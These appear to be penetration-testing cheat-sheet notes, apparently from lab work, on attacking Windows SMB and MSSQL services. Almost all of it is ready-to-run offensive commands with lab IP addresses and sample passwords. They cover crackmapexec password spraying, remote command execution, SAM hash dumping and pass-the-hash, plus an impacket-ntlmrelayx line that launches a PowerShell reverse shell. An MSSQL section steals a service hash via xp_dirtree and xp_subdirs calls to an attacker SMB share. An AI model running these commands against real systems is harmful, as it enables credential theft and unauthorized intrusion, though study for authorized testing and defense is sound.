 | crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'                                             | Password spraying against different users from a list.              |
| impacket-psexec administrator:'Password123!'@10.10.110.17                                                      | Connect to the SMB service using the impacket-psexec.               |
| crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec             | Execute a command over the SMB service using crackmapexec.          |
| crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users                            | Enumerating Logged-on users.                                        |
| crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam                                         | Extract hashes from the SAM database.                               |
| crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE                             | Use the Pass-The-Hash technique to authenticate on the target host. |
| impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146                                             | Dump the SAM database using impacket-ntlmrelayx.                    |
| impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e \<base64 reverse shell> | Execute a PowerShell based reverse shell using impacket-ntlmrelayx. |

`crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth`

if we are targetting a non-domain joined computer, we will need to use the option `--local-auth`.

## **Attacking SQL Databases**

### **Capture MSSQL Service Hash**

First setup smb server

* `sudo responder -I tun0` → smbserver using responder
* `sudo impacket-smbserver share ./ -smb2support` → smbserver using impacket

Then execute this mssql query

#### **XP\_DIRTREE Hash Stealing**

```
1> EXEC master..xp_dirtree '\\\\10.10.110.17\\share\\'
2> GO

subdirectory    depth
--------------- -----------

```

#### **XP\_SUBDIRS Hash Stealing**

```
1> EXEC master..xp_subdirs '\\\\10.10.110.17\\share\\'
2> GO

HResult 0x55F6, Level 16, State 1
xp_subdirs could not access '\\\\10.10.110.17\\share\\*.*': FindFirstFile() returned error 5, 'Access is denied.'

```

If the service account has access to our server, we will obtain its hash. We can then attempt to crack the hash or relay it to another host.
